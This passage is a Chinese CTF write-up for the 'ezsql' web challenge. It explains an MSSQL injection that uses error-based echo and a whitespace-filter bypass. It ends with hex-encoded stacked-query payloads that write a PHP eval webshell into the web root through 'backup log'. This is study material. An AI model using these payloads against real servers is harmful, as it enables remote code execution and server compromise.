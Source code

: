 最后建议校内的同学能去调试一下

## ezsql

**by xlccccc**

此题的启发是出题人在玩游戏的时候想要复制某个网站的某url，却发现要充五块钱才能复制100次，于是出题人稍微试了试就发现有个地方存在**mssql注入**，这道题的大部分查询逻辑都是复现当时的真实场景（ ~~除了能getshell~~

本题的查询逻辑是 首先利用给出的id查到该**id**对应的某个**number**，然后用该**number**去得到**name**

不过出题人懒得写了，所以就变成了

```sql
SELECT id FROM dbo.users WHERE id = 1
```

用id查id🤣，不过最终返回的结果是**name**，有没有师傅发现这个奇怪的点呢？

这个地方的目的是，当你第一步查的结果是字符串的时候，用字符串去进行第二步的查询会例如下面这样报错

> Conversion failed when converting the nvarchar value 'ctf' to data type int.

在转换字符串时出错，这样也是为了给你看回显，否则是看不到回显的。

对于**空白字符过滤的绕过**，视频hint已经给的很清楚了，希望校内师傅能用好搜索引擎，很容易找到的东西不至于卡这么久

第二步就是想想如何getshell，题面已经写的很清楚了（但还是有很多师傅问我为什么库内找不到flag...）

当然，能列任意目录，查任意文件也是可以的

这道题的本质就是一道信息题，很多信息都很容易得到，解这么少还是很意外的

![image-20230510234829988](Web_Writeup.assets/image-20230510234829988.png)

第一个结果就能看到最终预期的getshell方式，当然，这是作为出题人的我一眼发现的，而作为做题人，去试试每种方法也很容易做出这道题

对于绕过过滤，各位师傅其实最后的payload大差不差，这里给出一种最直接的办法

```sql
alter database ctf set RECOVERY FULL 
1;declare%01@s%01varchar(2000)%01set%01@s=0x616c7465722064617461626173652063746620736574205245434f564552592046554c4c20%01exec(@s)

create table cmd (a image)
1;declare%01@s%01varchar(2000)%01set%01@s=0x637265617465207461626c6520636d6420286120696d61676529%01exec(@s)

backup log ctf to disk = '/var/www/html' with init
1;declare%01@s%01varchar(2000)%01set%01@s=0x6261636b7570206c6f672063746620746f206469736b203d20272f7661722f7777772f68746d6c2f312e62616b27207769746820696e6974%01exec(@s)

insert into cmd (a) values (0x3c3f706870206576616c28245f504f53545b315d293b3f3e) #密码为1的一句话
1;declare%01@s%01varchar(2000)%01set%01@s=0x696e7365727420696e746f20636d64202861292076616c7565732028307833633366373036383730323036353736363136633238323435663530346635333534356233313564323933623366336529%01exec(@s)

backup log ctf to disk = '/var/www/html/shell.php'
1;declare%01@s%01varchar(2000)%01set%01@s=0x6261636b7570206c6f672063746620746f206469736b203d20272f7661722f7777772f68746d6c2f7368656c6c2e70687027%01exec(@s)
```
